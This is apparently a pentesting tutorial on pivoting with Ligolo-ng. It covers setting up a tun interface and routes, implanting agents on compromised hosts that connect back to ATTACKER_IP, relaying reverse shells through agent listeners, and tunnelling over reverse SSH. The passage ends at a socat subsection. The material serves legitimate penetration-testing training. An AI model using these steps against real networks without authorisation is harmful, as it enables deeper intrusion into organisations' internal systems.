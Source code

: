 ```yaml
---
description: >-
  Ligolo-ng is a simple, lightweight and fast tool that allows pentesters to
  establish tunnels from a reverse TCP/TLS connection using a tun interface
  (without the need of SOCKS).
---
```


# Ligolo-Ng : Pivoting use cases

Ligolo-Ng is a unique pivoting tool that allows you to create VPN-like tunnels, enabling direct interaction via target IP addresses instead of using socks proxies. With an interactive CLI interface, you can easily jump from one agent to another without any hassle.

Ligolo-Ng has two parts: a proxy that acts as a C2 interface to locate and select your targets, and also enables listeners on the target machine; and an agent that you implant on the target machine to initiate the VPN connection from the target machine to the attacking machine.

The agent does not require higher privileges on the target machine, so you can use a classic reverse shell to simplify any attacking methodology. With Ligolo-Ng, you can run any tool from your attacking machine against a target machine by closing the network gap between layers of networks.

{% embed url="https://github.com/tnpitsecurity/ligolo-ng" %}
Latest link in github to download ligolo-ng
{% endembed %}

<figure><img src="../../../.gitbook/assets/Untitled Diagram (4).jpg" alt=""><figcaption><p>A classic scenario for pivoting use cases</p></figcaption></figure>

### Setting up Ligolo-ng

{% hint style="info" %}
Before running Ligolo-ng, you must create a TUN Interface on the attacker PC so that ligolo can add routes to different sub networks. The idea is that when you have a sub network such as \`192.168.0.0/24\` that is inside the tartget network, you can provide the sub network IP address (which can only be reached from an internal network) to any tool you want.
{% endhint %}

`Creating a Tun Interface`

```
# Before running ligolo-ng proxy, you must create a tuntap virtual interface
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
```

<details>

<summary>ligolo-setup-script</summary>

```
#!/bin/bash
me="$(whoami)"
echo "addling ligolo routes to user: $user"

echo "creating the ligolo tun interface"
sudo ip tuntap add user "$me" mode tun ligolo 
sudo ip link set ligolo up

echo "now adding routes $a $b"
a="172.16.0.0/24"
b="192.168.0.0/24"
c="10.10.0.0/24"
sudo ip route add "$a" dev ligolo
echo "done : $a"
sudo ip route add "$b" dev ligolo
echo "done : $b"
sudo ip route add "$c" dev ligolo
echo "done : $c"

echo "good luck! :)"
```

</details>

Once you have added the TUN Interface and the sub networks that you want to access from the attacker PC, you can now launch ligolo proxy on the attacker PC and the agent on an already compromised host in the internal network.

`Connecting to a Ligolo-Agent`

```
# 1. On the attacking machine :
./proxy -selfcert -laddr 0.0.0.0:9901

# 2. On each compromised host with the network that you want to pivot to
./agent -connect ATTACKER_IP:9901
```

### Agent Binding/Listening

`Agent Binding/listening on ligolo allows you to capture reverse shells from an internal network and forward it through the ligolo connection. You can then launch a netcat/pwncat-cs from the attacking machine seamlessly, give you the impression as if you were already in the target network.`

## Ligolo-Ng Pivoting Tutorials / Use Cases

### 1. Accessing the Target Network

Once a connection is establised on the Public Facing Server that is in the Target Network via a reverse shell, it is possible to access/enumerate or exploit any vulnerabilities against a different target in the same network trough ligolo (such as a DMZ) or a target that is in a neighbouring network (in the case of a non-segmented network). This allows an attcker to use their very own tools from the attacking machine.

{% hint style="info" %}
The following method works only when the Target Network has direct access to the attacking machine network, such as in a local network, via port forwarding or a VPN connection. More advanced pivoting techniques will be detailed below. If the attacking machine is in a NAT network, then, port forwarding should implemented.
{% endhint %}

```
# 1. Follow the ligolo setup process and start the ligolo proxy on the attacking machine 
./proxy -selfcert -laddr 0.0.0.0:9901

# 2. Add a ip route on the attacker machine that will route the target sub network via the ligolo TUN interface
sudo ip route add 192.168.0.0/24 dev ligolo

# 3. Transfer the ligolo agent binary to the compromised target via wget/scp/pwncat-cs

# 4. Initiate a connection from the ligolo agent to the ligolo proxy
./agent -connect ATTACKER_IP:9901

# 5. On ligolo, select the agent that you have deployed on the compromised target (ligolo agent)

# 6. Once selected, type : 
start

//This will now route the sub network 192.168.0.0 via the ligolo TUN interface and through the ligolo tunnel
//Allowing you to use any tool from the attacking maching against the new target machine
```

![image](https://user-images.githubusercontent.com/90450439/221353322-0abc5b8e-01dd-491a-b3f7-0a3b050393ac.png)

### 1.1 Forwarding a reverse shell from the Target Network

Using the Ligolo's Agent Binding/Listening feature, it is possible to recieve a reverse shell connection from a target (in the Target Network) that does not have direct access to the attacking machine (ie. an internet/WAN access). An agent in a compromised server that can communicate with the target can also act as a listner, thus allowing to forward reverse shells through the ligolo tunnel back to the attacking machine.

```
# 1. Establish an agent in the Public Facing server via ligolo agent

# 2. On the ligolo proxy (on the attacking machine), select the agent

# 3. Provide the following command
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:8899 --tcp

# 4. Launch netcat/pwncat-cs on the attacker machine to recieve the reverse shell

//Flags : --addr 0.0.0.0:1234 (the listener IP and port on the compromised server)
//Flags : --to 127.0.0.1:8899 (the netcat/pwncat-cs listner on the attackers machine)
```

{% hint style="info" %}
In the following example, The reverse shell is initiated from the machine 192.168.0.10 in the target network that do not have direct access to the Attacker machine but to the Public Facing Server. When configuring the reverse shell, the connection must be directed to the Public Facing Server's IP address as it is were the ligolo agent will start it's listner that was initiated via listner\_add.
{% endhint %}

![image](https://user-images.githubusercontent.com/90450439/221354631-dbcb392f-af06-49d8-a63c-c5c03201c2cd.png)

### 1.2. Accessing the Internal Network

It is also possible to implant ligolo agents into deeper levels of the network in an organization inorder to compromise additional servers/devices. This follows the simmilar steps that were described for the Public Facing Server. However, this requires once again a reverse shell in the Internal Network or other sorts of foothold as a low privileged user in the internal network.

```
# 2. Add a ip route on the attacker machine that will route the target sub network via the ligolo TUN interface
sudo ip route add 10.10.0.0/24 dev ligolo

# 3. Transfer the ligolo agent binary to the compromised target via wget/scp/pwncat-cs

# 4. Initiate a connection from the ligolo agent to the ligolo proxy
./agent -connect ATTACKER_IP:9901

# 5. On ligolo, select the agent that you have deployed on the compromised target (ligolo agent)

# 6. Once selected, type : 
start

//This will now route the sub network 10.10.0.0 via the ligolo TUN interface and through the ligolo tunnel
//Allowing you to use any tool from the attacking maching against the new target machine
```

![image](https://user-images.githubusercontent.com/90450439/224545307-05571c12-31a9-41b7-b8cc-8b4365336e77.png)

### 2. Pivoting Ligolo-Ng with SSH access

In the case where the Target Network as well as the Internal Network has no possibility to contact the attacking machine but via a SSH connection, it is possible to initiate a connection from a ligolo agent implanted in the Public Facing Server via a SSH Reverse tunnel.

To do this, you will first have to initiate a Reverse SSH Connection. This is mainly because the ligolo proxy always listens to connections that are first initiated by the ligolo agent. A reverse ssh connection will allow us to open a port within the Public Facing Server and whatever that connects to that perticular port will then be tunnled trough the SSH connection.

```
//Initiate a Reverse ssh connection to the target server

ssh -R 7878:127.0.0.1:1337 user@target_server_ip
```

![image](https://user-images.githubusercontent.com/90450439/224557695-01ad05f3-a9ca-4456-ac94-246f2b3f5228.png)

Once the ssh tunnel is established, now you can transfer the ligolo agent and run the ligolo agent from the target server, simmilar to the steps shown above..

{% hint style="info" %}
The following method allows only a single ligolo agent connection. Due to the nature of the port mapping that is provided in the SSH reverse connection, once a ligolo agent "occupies" a port, it is not possible to use another ligolo agent on the same port.
{% endhint %}

```
//On the attacking machine 
./proxy -selfcert -laddr 127.0.0.1:1337

//On the target machine 
./agent -connect 127.0.0.1:7878 -ignore-cert
```

![image](https://user-images.githubusercontent.com/90450439/224558041-d257541d-a8f5-4fdd-9450-e4ef64ae4489.png)

### 2.1 Pivoting Ligolo-Ng with SSH access + SOCAT

In order to avoid initiating multiple SSH connections per ligolo agent connection, you can tunnel these connections through a single SSH connection. To achieve this, we will be using the tool socat.
